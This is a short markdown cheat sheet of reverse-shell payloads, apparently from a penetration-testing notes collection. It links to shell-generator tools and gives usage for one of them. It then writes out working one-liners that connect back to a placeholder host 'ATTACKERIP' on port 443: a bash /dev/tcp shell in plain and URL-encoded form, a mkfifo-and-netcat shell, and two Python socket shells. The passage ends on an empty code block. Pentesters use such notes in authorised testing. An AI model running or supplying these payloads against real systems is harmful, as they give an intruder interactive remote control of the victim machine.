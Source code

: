 > https://www.revshells.com/
> https://github.com/antonioCoco/ConPtyShell - Fully Interactive Windows Shell - Win 10 / 2019 1809
> https://github.com/mthbernardes/rsg

```bash
python3 rsg ${IP} ${PORT} socat
python3 rsg ${IP} ${PORT} python
```

`RSG` shell types - `bash`, `perl`, `ruby`, `netcat`, `ncat`, `python`, `php`, `telnet`, `powershell`, `awk`, `java`, `node.js`, `tclsh`, `socat`, `jenkins`

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKERIP/443 0>&1'
%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FATTACKERIP%2F443%200%3E%261%27
```

```bash
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | sh -i 2>&1 | nc ATTACKERIP 443 >/tmp/f
```

```python
python -c 'import socket,subprocess,os ; s = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) ; s.connect( ( "ATTACKERIP", 443 ) ) ; os.dup2( s.fileno(), 0 ) ; os.dup2( s.fileno(), 1 ) ; os.dup2( s.fileno(), 2 ) ; import pty ; pty.spawn( "sh" ) ;'
```

```python
python -c 'import socket,subprocess,os ; s = socket.socket( socket.AF_INET, socket.SOCK_STREAM ) ; s.connect( ( "ATTACKERIP", 443 ) ) ; os.dup2( s.fileno(), 0 ) ; os.dup2( s.fileno(), 1 ) ; os.dup2( s.fileno(), 2 ) ; p = subprocess.call( [ "/bin/sh", "-i" ] ) ;'
```

```python
